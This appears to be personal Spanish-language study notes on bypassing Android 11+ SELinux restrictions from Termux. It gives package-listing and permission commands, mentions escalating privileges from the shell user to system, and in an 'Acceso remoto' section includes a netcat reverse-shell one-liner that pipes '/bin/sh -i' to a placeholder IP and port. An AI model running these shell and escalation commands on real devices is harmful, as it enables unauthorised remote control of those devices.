
# Todo a lo randor

A partir de android 11 `selinux` implementó varias restricciones, la buena noticia es que muchas de ellas se pueden 'bypassear' sin necesidad de ser root ni haciendo uso de adb xD. El mismo restringe las llamadas al sistema


**Listar paquetes saltando protexion ** 

```sh
<<(pm list packages -3 --user 0 2>&1 < /dev/null )
``` 
```
PATH=$PREFIX/bin && /system/bin/pm list packages --user 0
```


- Desde un usuario con uid2000 se  puede torgar permiso  
```
am start --user 0 -a android.settings.action.MANAGE_OVERLAY_PERMISSION -d "package:com.termux.x11"
```

# Investigar 

- Si se logras ejecutar los binarios de ``/vendor/bin`` siendo usuario shell es posible escalar privilegios hasta el usuario ``system``. Mas informacion [aqui](https://t.me/Ivam3by_Cinderella/13/9867) 

# Pendientes 
---
*Aprender*
[](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
--- 

**Rever shell**

[Ejemplo](https://t.me/Ivam3by_Cinderella/13/9377)

--- 

**Acseso remoto**

```
rlwrap /system/bin/toybox nc serveo.net 65000
```

```
tali -n0 -f $TMPDIR/xD|/bin/sh -i 2>&1| nc <IP> <port> 1>$TMPDIR/xD  
```

---

**Hacer funcional `qemu-i386`  


```sh 
⊨ qemu-i386 ~/ch1.bin                                    ~/p/v/_posts
qemu-i386: Could not open '/lib/ld-linux.so.2': No such file or directory
```

**Referencia**

https://tldp.org/HOWTO/Glibc2-HOWTO-5.html

---


**Telegram**
https://t.me/Ivam3by_Cinderella/19953


